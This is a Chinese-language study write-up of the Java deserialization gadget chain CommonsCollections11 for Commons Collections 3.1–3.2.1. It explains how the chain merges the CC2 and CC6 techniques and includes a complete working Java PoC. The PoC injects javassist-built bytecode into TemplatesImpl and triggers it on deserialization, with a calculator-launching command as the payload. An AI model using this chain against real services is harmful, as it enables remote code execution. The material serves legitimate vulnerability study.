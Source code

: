 # CommonsCollections11利用链分析

## 前言

`CommonsCollections11`链子的利用环境如下：

```
CommonsCollections 3.1 - 3.2.1
JDK版本暂无
```

可能学到这里，你和我一样会有一个疑问：`CommonsCollections6`已经通杀`3.1-3.2.1`的情况下，为什么还要学该版本下的其他链子？

个人觉得`CommonsCollection11`的存在是为了解决在`CommonsCollections 3.1 - 3.2.1`的版本下加载恶意字节码的问题。除此之外，`CommonsCollections6`在`shiro`中使用时会报错，至于为什么，具体答案留到`shiro`章节学习时再进行解惑。

这里提到恶意字节码，很快能想到前面学习的`CommonsCollections2`这条链子，聪明的你应该已经能想到了，`CommonsCollections11`就是`CommonsCollections2`和`CommonsCollections6`结合而来。

## 利用链

先回忆一下，`CommonsCollections2`链子只所以限制版本为`CommonsCollections 4.0`，则是因为 gadget 中用到了`TransformingComparator`类，而该类只有在 4.0 版本的时候才实现了`serializable`接口。

在`3.1 - 3.2.1`版本的时候无法使用该类，而是使用了`CommonsCollections6`中的`TiedMapEntry`类来触发`LazyMap#get()`，最后执行`transform()`方法。接下来还剩一个问题，就是如何触发`TemplatesImpl#newTransformer()`方法来加载恶意字节码？

在`CommonsCollections11`中只单独使用`InvokerTransformer`类，通过反射修改`iMethodName`为`newTransformer()`方法。 POC 如下：
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
        commonsCollections11.unserialize();
    }
    public void serialize() throws Exception{
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

![image-20221012163340954](images/image-20221012163340954.png)

通过把`TemplatesImpl`类对象`templates`作为`TiedMapEntry`类的`key`
![image-20221012163435957](images/image-20221012163435957.png)

执行到`LazyMap#get()`方法时，成功触发到`TemplatesImpl#newTransformer()`方法加载恶意类

